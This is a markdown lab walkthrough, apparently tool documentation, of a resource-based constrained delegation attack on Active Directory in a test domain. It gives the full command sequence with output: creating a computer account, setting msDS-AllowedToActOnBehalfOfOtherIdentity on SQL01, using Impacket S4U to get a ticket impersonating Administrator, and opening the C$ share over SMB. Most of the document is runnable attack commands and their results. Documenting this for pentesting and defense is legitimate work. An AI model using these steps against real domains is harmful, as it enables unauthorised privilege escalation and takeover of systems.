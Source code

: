 # Delegations Abuse

## Resource Based Constraint Delegation
The detail of the attack can be found at [HackNDo - Delegations](https://en.hackndo.com/constrained-unconstrained-delegation/)

![Bloodhound ACE](./img/delegations/bloodhound-billy-genericwrite-sql01.png)

When `billy@crash.lab` as GenericAll/GenericWrite/WriteProperties ACE on `SQL01@crash.lab`,
the user `billy@crash.lab` can add `msDS-AllowedToActOnBehalfOfOtherIdentity` property in `SQL01@crash.lab` attribute and set its value
to an user or a computer named `object C`.

Then, `object C` can impersonate any user in the domain (as long as their property `Cannot Be Delegated` is set to `False`)
to connect on `SQL01@crash.lab` services.


### Abuse
For this attack to work, we need an user or a computer object with SPN set.
For the example, we create a computer object in the domain:
```
> python bloodyAD.py -u billy -p 'Password1!' -d crash.lab --host 10.100.10.5 addComputer test 'Password1!'  

[+] test has been successfully added

> python bloodyAD.py -u 'billy' -p 'Password1!' -d crash.lab --host 10.100.10.5  getObjectAttributes 'test$' ServicePrincipalName

{
    "servicePrincipalName": [
        "RestrictedKrbHost/test.crash.lab",
        "RestrictedKrbHost/test",
        "HOST/test.crash.lab",
        "HOST/test"
    ]
}
```

Then, we add `test@crash.lab` in `msDS-AllowedToActOnBehalfOfOtherIdentity` of `SQL01@crash.lab`.

```
> python bloodyAD.py -u billy -p 'Password1!' -d crash.lab --host 10.100.10.5 setRbcd 'test$' 'SQL01$' True 

[!] No security descriptor has been returned, a new one will be created
[*] test$ SID is: S-1-5-21-1400973894-1732215467-1400486941-1111
[+] msDS-AllowedToActOnBehalfOfOtherIdentity set successfully
[+] test$ can now impersonate users on SQL01$ via S4U2Proxy
```

Then, we request a ServiceTicket for `HOST/SQL01.crash.lab` service on behalf of `Administrator` user.

```
> python examples/getST.py -impersonate 'Administrator' -spn 'HOST/SQL01.crash.lab' 'crash.lab/test$:Password1!' -dc-ip 10.100.10.5
Impacket v0.10.1.dev1+20221214.172823.8799a1a2 - Copyright 2022 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Finally, we use the ticket to access SQL01 CIFS.

```
> export KRB5CCNAME=Administrator.ccache
> python examples/smbclient.py 'crash.lab/@SQL01.crash.lab' -dc-ip 10.100.10.5 -k -no-pass -debug
Impacket v0.10.1.dev1+20221214.172823.8799a1a2 - Copyright 2022 Fortra

[+] Impacket Library Installation Path: /home/user/Tools/Networking/impacket/venv/lib/python3.10/site-packages/impacket
[+] Using Kerberos Cache: Administrator.ccache
[+] SPN CIFS/SQL01.CRASH.LAB@CRASH.LAB not found in cache
[+] AnySPN is True, looking for another suitable SPN
[+] Returning cached credential for HOST/SQL01.CRASH.LAB@CRASH.LAB
[+] Using TGS from cache
[+] Changing sname from HOST/SQL01.crash.lab@CRASH.LAB to CIFS/SQL01.CRASH.LAB@CRASH.LAB and hoping for the best
[+] Username retrieved from CCache: Administrator
Type help for list of commands
# use C$
# ls
drw-rw-rw-          0  Thu Jan 12 12:47:00 2023 $Recycle.Bin
drw-rw-rw-          0  Thu Jan 12 12:46:19 2023 Documents and Settings
-rw-rw-rw- 1207959552  Mon Jan 23 11:11:32 2023 pagefile.sys
drw-rw-rw-          0  Thu Jan 12 21:44:43 2023 PerfLogs
drw-rw-rw-          0  Thu Jan 12 12:51:47 2023 Program Files
drw-rw-rw-          0  Thu Jan 12 21:44:43 2023 Program Files (x86)
drw-rw-rw-          0  Mon Jan 23 10:52:20 2023 ProgramData
drw-rw-rw-          0  Thu Jan 12 12:46:20 2023 Recovery
drw-rw-rw-          0  Thu Jan 12 12:45:50 2023 System Volume Information
drw-rw-rw-          0  Mon Jan 23 10:52:55 2023 Users
drw-rw-rw-          0  Thu Jan 12 12:53:07 2023 Windows
```